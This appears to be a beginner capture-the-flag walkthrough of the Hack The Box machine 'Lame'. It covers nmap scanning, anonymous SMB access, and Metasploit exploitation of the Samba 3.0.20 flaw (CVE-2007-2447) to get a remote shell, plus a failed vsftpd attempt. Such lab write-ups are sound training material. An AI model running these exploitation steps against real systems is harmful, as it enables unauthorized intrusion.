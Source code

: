 ## **Hack The Box - Lame**

**Creator:**
**Difficulty:** Easy
**Link:** [Link to HTB-Lame](

### Walkthrough
---

<ins>**Enumeration**</ins>

Since Hackthebox provides us with the machines IP address there is no need to do an initial discovery scan on our network like with other vulnerable machines. 

Instead for my first step I enumerate the services with open ports and try to figure out their versions. 

`nmap -sV -sC <target_ip>` 

Where <target_ip> is the IP address for the machine provided by hack the box. 

![Service Enumeration Fail](/docs/assets/images/HTB/Lame/lame01.png)

It can be seen from the results that the machine is blocking ping scans and that nmap suggests we try to use the -Pn switch. This switch tells nmap to diable host discover and to only scan ports.

`nmap -sV -sC -Pn <target_ip>`

![Enumeration Results](/docs/assets/images/HTB/Lame/lame02.png)

\* Another thing that can be done is to output the scan results into a file, which along with taking screenshots can be handy for referencing later (For example here is an old screenshot of the first time I attempt to scan this machine)

![Output Scan Results To A File](/docs/assets/images/HTB/Lame/lame03.png)

The `-O` switch tells nmap to also try to discover the machines operating system.

So the Results from the initial nmap scan are

> Port 21 open to FTP traffic using version vsftpd
> Port 22 open to SSH traffic using version OpenSSH 4.7p1
> Port 139 open to smb traffic using version Samba 3.x - 4.x
> Port 445 open to smb traffic using version Samba 3.0.20

It's also possibly running Linux version 2.6 as it's Operating System.

The *anonymous* credentials for smb do allow for a look into the machine, but with such low privileges there wasn't a whole lot I could find to do.

```
smbclient -L 10.10.10.3 
smbclient \\\\10.10.10.3\\tmp
When prompted for a password simply press enter
```

![smbclient1](/docs/assets/images/HTB/Lame/lame04.png)

![smbclient2](/docs/assets/images/HTB/Lame/lame05.png)

The files labeled exploit and vgauthsvclog.txt appeared to be intersting but after downloading and reading through them there wasn't much I was able to do.

---


<ins>**Known Exploits**</ins>

*searchsploit* can be used to search for known exploits related to the service versions the nmap found. In this 2 known exploits that work with metasploit are found.

The first is an exploit related to the ftp version.

**CVE:**2011-2523 [Exploitdb Link](https://www.exploit-db.com/exploits/17491)
**More Detailed Link:** [Detailed Link](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
![ftp searchsploit](/docs/assets/images/HTB/Lame/lame06.png)

The second one is related to the samba version
**CVE:**2007-2447 [Exploitdb Link](https://www.exploit-db.com/exploits/16320)
**More Detailed Link:** [Detailed Link](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)
![samba searchsploit](/docs/assets/images/HTB/Lame/lame07.png)

As both of these exploits work with *Metasploit* it's fairly easy to test them.

---

<ins>**The Exploit That Works**</ins>


Of the two exploits this machine appears to be vulnerable to I was only able to get the one that targets Samba 3.0.20 to work.

This exploit is made for *Metasploit* so it's simple to execute. Enter the following to bring up the Metasploit Framework and search for the path to the exploit.

```
msfconsole
search samba 3.0.20
```

![msfconsole and search](/docs/assets/images/HTB/Lame/lame08.png)
![msfconsole and search](/docs/assets/images/HTB/Lame/lame09.png)

In this case it's the first and only exploit that shows up so either enter `use 0` or `use <file_path>` to select the exploit. From there entering `options` will display all of the options that can be manually adjusted.

![Samba Exploit Options](/docs/assets/images/HTB/Lame/lame10.png)

The available options are *RHOSTS*, *RPORT*, *LHOST*, *LPORT*. For the purposes of this exploit the only two to be concerned with are *RHOSTS* and *LHOST* options. Enter the following options
```
set RHOSTS <target_ip>
set LHOST <host_ip>
```
Where the <target_ip> is the IP address for the machine provided by Hack the box and <host_ip> represents the IP address associated with your machine.

![Set Hosts](/docs/assets/images/HTB/Lame/lame11.png)
\* I initially made a mistake here as it's *LHOST* not *LHOSTS*

Then just enter `run` in the console and wait a moment while Metasploit works it's magic. Eventually your console will display a dialogue that looks similar to the one below and then you can start entering commands on the target machine.

![Exploit](/docs/assets/images/HTB/Lame/lame12.png)

`whoami`

![whoami](/docs/assets/images/HTB/Lame/lame13.png)

From there it's just using commands to explore the file system to find the flags.

![Explore File System User](/docs/assets/images/HTB/Lame/lameuserflag.png)

![Explore File System Root](/docs/assets/images/HTB/Lame/lame14.png)

Copy the flag and submit it on Hackthebox and you're done.

![Lame Pwn](/docs/assets/images/HTB/Lame/lamepwn.png)

---

<ins>**The Exploit That Didn't Work**</ins>

I was not able to successfully execute the ftp vulnerability. After doing some searching online I mostly found a lot of blog posts very similar to this one expressing the same thing. So very briefly I'll provide a quick break down of my attempt to do so with screenshots and if anyone who happens to read this knows how to actually make the exploit work please update me in the comments.

As this one is another Metasploit exploit the first thing to do is again open the msfconsole and search for the exploits file path.

![msfconsole ftp](/docs/assets/images/HTB/Lame/lame15.png)

From here it will be the same as before where we select the exploit by entering `use 0` or `use <file_path>` and then enter `options` to see the options available for this exploit.
This time around the only concer is the *RHOSTS* options so enter `set RHOSTS <target_ip>`. I will usually enter `options` again just to verify I set everything correctly.

![msfconsole ftp options](/docs/assets/images/HTB/Lame/lame16.png)

From there simply enter `run` into the console and let Metasploit once again work it's magic. Eventually an error will display claiming the exploit was completed but no session was created.

![msfconsole ftp error](/docs/assets/images/HTB/Lame/lame17.png)

That's all there is to that one as far as I can tell. I found one blog post claiming that the exploit was just a backdoor that was patched out of that version and was only available for a short time. I really couldn't find a source on that information though.

---

<ins>**Final Thoughs**</ins>

Not a whole lot. Lame is a relatively easy machine intended to be the first part of a *Beginner Track* offered by Hackthebox. I could see it being frustrating if you attempted the broken exploit first and got hung up on trying to make it work. I believe each of these exploits can also be executed manually if you'd like an additional challenge. Outside of that as far as I can tell Lame doesn't really have a whole lot going on with it.



